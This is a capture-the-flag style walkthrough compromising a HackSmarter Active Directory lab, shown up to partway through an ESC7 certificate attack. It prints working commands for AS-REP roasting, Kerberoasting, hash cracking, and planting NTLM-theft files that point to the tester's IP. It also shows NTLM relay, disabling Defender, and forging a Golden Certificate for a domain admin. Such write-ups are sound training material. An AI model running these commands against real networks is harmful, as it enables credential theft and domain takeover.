# Summary

_Triathlon_ is a Hard rated, Active Directory environment range of target hosts, from _HackSmarter_. In order to fully compromise the target hosts, one must exploit/abuse multiple vulnerabilities and misconfigurations. The full breakdown can be found in the remediation section at the end of the writeup.

## Attack Path Summary

### Compromising _BIKE-SRV_

```
Username enumeration → t.spivey is AS-REP Roastable → Kerberoast via AS-REP Roast → cracking j.reed's hash → SMB write access → NTLM Relay dumps SAM → Pass-the-Hash with local administrator
```

### Compromising _SWIM-SRV_

```
Dumping LSA on BIKE-SRV → Cracking m.pearson's hash → m.pearson is a local administrator
```

### Compromising _RUN-SRV_ (DC)

```
SWIM-SRV is ADCS PKI Enrollment Server → Local LDAP enumeration using BloodHound collector on SWIM-SRV → Reviewing relationships on BloodHound → Escalating privileges with Golden Certificate and attempting to escalate with ESC7
```

## Attack Path Graphical Summary



---
# Introduction

```
The 2025 U.S. Elite Triathlon National Team has requested a penetration test on its internal network. They have granted access to their network via VPN, but no other information has been provided. Successful testers should prove full compromise by providing the NTLM hash for the "krbtgt" account.

Treat this like a real engagement, keeping in mind that **only** the lab environment assets are in scope for active testing.
```

---
# Preliminary Data, Hostnames

Authenticating with null session to get exact host, domain and FQD names:



Added the entries to my local hosts file:



# Full TCP Range Scan

Scanning the target host with the following command:

```bash
nmap -v -Pn -p- --max-rate 500 -iL hostnames.txt

Nmap scan report for BIKE-SRV (10.1.206.192)
Host is up (0.097s latency).
rDNS record for 10.1.206.192: BIKE-SRV.tri.lab
Not shown: 65528 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49667/tcp open  unknown
49669/tcp open  unknown

Nmap scan report for RUN-SRV (10.1.12.59)
Host is up (0.099s latency).
rDNS record for 10.1.12.59: RUN-SRV.tri.lab
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49998/tcp open  unknown
50000/tcp open  ibm-db2
50012/tcp open  unknown
50026/tcp open  unknown
50041/tcp open  unknown

Nmap scan report for SWIM-SRV (10.1.206.69)
Host is up (0.099s latency).
rDNS record for 10.1.206.69: SWIM-SRV.tri.lab
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49667/tcp open  unknown
62089/tcp open  unknown
```

## Notes on Scan Results

- _RUN-SRV_ is the domain controller, as such it has default services like Kerberos, DNS, LDAP, etc. accessible over default ports.
- _BIKE-SRV_ and _SWIM-SRV_ have similar domain-joined services such as SMB, RPC and RDP accessible over default ports. _BIKE-SRV_ has an HTTP web server accessible over default port 80.

---
# Preliminary AD Enumeration

## User Enumeration

Using Kerbrute, I spray a variation of the [jsmith wordlist](https://github.com/insidetrust/statistically-likely-usernames) that combines the top 2500 from each username variation. I manage to get a single hit that indicates the username convention on the domain:



Knowing that the format is `j.smith`, I can then use the full wordlist - which grants me two additional hits:



I saved these usernames to _partial.txt_ then attempted to use the list to test whether one of these users have _NO_PREAUTH_:

```bash
impacket-GetNPUsers tri.lab/ -usersfile Lists/partial.txt  -format hashcat -outputfile asreprost.hash -dc-ip 10.1.12.59
```



As seen above, `t.spivey` has _NO_PREAUTH_ and therefore a hash is returned - attempting to crack it with _hashcat_ fails:

```bash
hashcat -m 18200 -a 0 Hashes/t.spivey.18200 /usr/share/wordlists/rockyou.txt
```



## OSINT

Remembering that I am allegedly testing the 2025 U.S. Elite Triathlon National Team, I google the term. The _U.S. Elite Triathlon National Team_ has a [website](https://www.usatriathlon.org/usatri/national-team), in which I could locate `Morgan Pearson` - that corresponds to `m.pearson`, the user I've discovered earlier:


Although I've collected 26 full names, the only three that are valid users were already known to me. 

## Kerberoasting via an AS-REP Roastable Account

There is an additional vector leveraging `t.spivey` does not require Kerberos pre-authentication. This vector allows a crafted AS-REQ to be sent on `t.spivey`'s behalf with the `sname` field in the request body set to a target SPN instead of `krbtgt/tri.lab` - since `sname` is not integrity-protected in an AS-REQ, and no password is needed due to the lack of pre-authentication, the KDC returns a Service Ticket for that target account rather than a TGT. As it is currently not possible to know which, if any, users have an SPN assigned, this is a blind attempt: each username in the list I managed to verify is tried as the `sname` value in turn. 

Or, graphically represented:




```bash
netexec ldap RUN-SRV -u 't.spivey' -p '' --no-preauth-targets Lists/partial.txt --kerberoasting output.txt 
```



As seen in the output above, I recover `j.reed`'s TGS hash. After attempting to crack it once, I re-try with _best66_ rule:

```bash
hashcat -m 13100 -a 0 Hashes/j.reed.13100 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best66.rule
```



The hash cracks and I recover `j.reed`'s password, attempting to authenticate to all hosts is successful:



# Credentialed AD Enumeration

## Domain Users and Password Policy

Having `j.reed`'s valid password, I can list all domain users:

```bash
netexec smb RUN-SRV -u 'j.reed' -p '[...]' --users-export Lists/domain_users.txt
```



Note that `j.reed` seem to have an additional admin account (`j.reed_adm`), it is within the realm of possibilities that the password is re-used. However, before testing that - I will make sure that the enforced password policy allows password spraying without risking account lockouts:

```bash
netexec smb RUN-SRV -u 'j.reed' -p '[...]' --pass-pol
```



As seen above, the password policy is rather permissive, no password complexity or account lockout threshold are set - I will be able to spray passwords without risking accounts lockout.

In this case, the previously-recovered password is not re-used for any other account.

## LDAP Enumeration

Having valid domain credentials allows me to enumerate the Active Directory environment using _bloodyAD_'s _BloodHound_ collector. The output from this tool can help map relationships and identify attack paths visually.

Using `tri.lab`'s valid credentials to execute _bloodyAD_'s collector:

```bash
bloodyad --host RUN-SRV -d 'tri.lab' -u 'j.reed' -p '[...]' get bloodhound
```



Loading the newly-created _.zip_ file into the _BloodHound_ GUI, I mark `j.reed` as owned. However I cannot note anything of interest with my current level of access.

`j.reed_adm` is indeed a privileged account - a member of _Domain Admins_, and it is also a member of _Denied RODC Password Replication Group_, so its password is protected from Read-Only DC password caching.  



## SMB Enumeration

Listing the readable shares across all three hosts:

```bash
netexec smb hostnames.txt -u 'j.reed' -p '[...]' --shares | grep 'READ'
```



The _TransitionZone$_ share is accessible to `j.reed`. The user has both read and write permissions on it. 

---
# Compromising _BIKE-SRV_
## NTLM Theft

As previously discovered, the _TransitionZone$_ share hosted on _SWIM-SRV_ is the sole non-default share that's readable to me - and the user has write access to it as well. Reviewing its content, the share is empty:



Since I have write access, I will generate files pointing to my local host, place them within the share and hope for a user to interact with them, which will trigger an NTLM authentication attempt that will be intercepted by _Responder_:

```bash
python3 /opt/ntlm_theft/ntlm_theft.py --generate all --server 10.200.100.97 --filename Liar
```



Firing up _Responder_ with `sudo responder -I tun0`, I place the files within the share, until the point that _Responder_ intercepts `e.ackerlund`'s NTLM hash:



I have attempted to crack the intercepted hash with and without rules - unfortunately it did not crack.
## NTLM Relay

Another tool in the arsenal is a relay attack. I will set up a listener for incoming NTLM authentication traffic, take the captured NTLM authentication and relay it to SMB on all domain hosts. If the relayed identity has sufficient privileges on one of the targets - it will be able to perform privileged SMB operations:

```bash
impacket-ntlmrelayx -tf hostnames.txt -smb2support
```



Once the uploaded file is interacted with, every host responds differently to the relay - it is successful on _BIKE-SRV_ but fails for the other two hosts:



On _BIKE-SRV_, the relay allows dumping the host's local SAM:



Below the dumped SAM from _BIKE-SRV_:



As seen above, I recovered _BIKE-SRV_'s local `administrator`'s NT hash. Now, performing Pass-the-Hash, I manage to authenticate to the host:



Starting a session on _BIKE-SRV_ as its local `administrator`, confirming command execution and host compromise:



---
# Compromising _SWIM-SRV_
## _BIKE-SRV_ Post-Compromise Enumeration

Having compromised _BIKE-SRV_, I can dump its LSA in an attempt to harvest credentials:



As seen above, within the output, I manage to recover `m.pearson` Domain Cached Credentials v2 (DCC2) hash. Attempting to crack the hash with _hashcat_:

```bash
hashcat -m 2100 -a 0 Hashes/m.pearson.2100 /usr/share/wordlists/rockyou.txt
```



The hash is cracked successfully, using the newly discovered password to authenticate to the domain hosts as `m.pearson`:



The authenticate is successful. Furthermore, `m.pearson` has local administrator-level access to _SWIM-SRV_. 





---
# Compromising _RUN-SRV_ (DC)

## Abusing ADCS

Checking whether ADCS is used on the domain:



ADCS is used on the domain and hosted on _SWIM-SRV_ - a host that is thoroughly compromised.

Trying to review whether the service has misconfigurations or vulnerabilities, I use _certipy-ad_ in the following manner:

```bash
certipy-ad find -u 'm.pearson' -p '[...]' -dc-ip '10.1.12.59' -stdout -vulnerable
```



Beside providing the CA name, it does not detect any certificate templates. 

Another enumeration avenue is running the _BloodHound_ collector binary, _SharpHound.exe_, on the host. When ran locally, it usually collects information that's not always present when performing LDAP enumeration through Kali (with _bloodyAD_, for example).

Within the RDP session on _SWIM-SRV_, I attempted to run a _BloodHound_ collector locally, but was block by _Defender_. To neutralize its real-time detection, I run the following:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Then, I can execute the collector successfully:



I will RDP again to the target host, this time with `/drive:Kali,/home/dact/Transfers/Rdesktop`, to exfiltrate the file to my local host:



Reviewing _SWIM-SRV_ on the _BloodHound_ GUI, it has _HostsCAService_ on the certificate authority (CA). This makes a Golden Certificate attack a strong candidate:

From [Certipy](https://github.com/ly4k/Certipy/wiki/07-%E2%80%90-Post%E2%80%90Exploitation#forging-golden-certificates-leveraging-a-compromised-ca-key)'s description of Golden Certificates - "_If an attacker compromises a significant Certificate Authority's private key (especially a Root CA trusted by the domain, or an Enterprise Issuing CA whose certificate resides in the NTAuth store), they gain the ability to forge certificates for any identity within the domain at will. These certificates can be crafted with long validity periods, specific powerful EKUs, and any desired subject information, essentially allowing indefinite and versatile persistence._". 



Furthermore, it has _ManageCertificates_ and _ManageCA_ on the Enterprise CA object. It means that it can modify the CA configuration as well as approve certificate requests. According to [Certipy](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc7-dangerous-permissions-on-ca)'s ESC7 entry - these are the prerequisites for this attack: 



### Golden Certificate - Compromising `j.reed_adm`

A Golden Certificate attack is performed in three stages:

1. **CA Private Key Backup**

Using `m.pearson`'s credentials, I create a backup to the CA's key (_.pfx_ file):

```bash
certipy-ad ca -u 'm.pearson@tri.lab' -p '[...]' -ns '10.1.12.59' -target 'SWIM-SRV.tri.lab' -config 'SWIM-SRV.tri.lab\tri-CA' -backup
```



As seen above it writes a certificate and private key to the _.pfx_ file, that will service me in the next step.

2. **Forging a Golden Certificate** 

Knowing that `j.reed_adm` is a member of _Domain Admins_, I will attempt to forge a certificate for it. This is done by including the previously issued certificate, the username to which I would like to forge a certificate and its SID. The reason that the forge goes through successfully is that I have presented the previously created certificate - as the KDC doesn't validate the CA's issuance database:

```bash
certipy-ad forge -ca-pfx tri-CA.pfx  -upn 'j.reed_adm@tri.lab' -sid 'S-1-5-21-542797205-3952052766-1175187200-1109' -crl 'ldap:///'
```



Now, having forged a certificate successfully, I can present it for authentication, _certipy-ad_'s `auth` module will extract an NT hash from the requested TGT:

```bash
certipy-ad auth -pfx 'j.reed_adm_forged.pfx' -dc-ip 10.1.12.59
```



Having recovered an NT hash for `j.reed_adm`, I can dump the NTDS and compromise the domain fully:



### _ESC7_ - Attempting to Compromise `administrator`

Having presented privilege escalation using Golden Certificate and compromising `j.reed_adm`, I can attempt to compromise `administrator` in another vector - _ESC7_ (_or so I thought_). This vector is performed in the five steps below:

1. **Adding the `m.pearson` as an officer** - this will facilitate its ability to approve requests:

```bash
certipy-ad ca -u 'm.pearson@tri.lab' -p 'p...' -ns '10.1.12.59' -target 'SWIM-SRV.tri.lab' -ca 'tri-CA' -add-officer 'm.pearson'
```



2. **Enabling SubCA Template** - as I know there aren't any published templates, I enable _SubCA_ to be the one abused:

```bash
certipy-ad ca -u 'm.pearson@tri.lab' -p '[...]' -ns '10.1.12.59' -target 'SWIM-SRV.tri.lab' -ca 'tri-CA' -enable-template 'SubCA'
```



3. **Submitting a certificate request using SubCA** - requesting `administrator`'s certificate:

```bash
certipy-ad req -u 'm.pearson@tri.lab' -p '[...]' -dc-ip '10.1.12.59' -target 'SWIM-SRV.tri.lab' -ca 'tri-CA' -template 'SubCA' -upn 'administrator@tri.lab' -sid 'S-1-5-21-542797205-3952052766-1175187200-500'
```

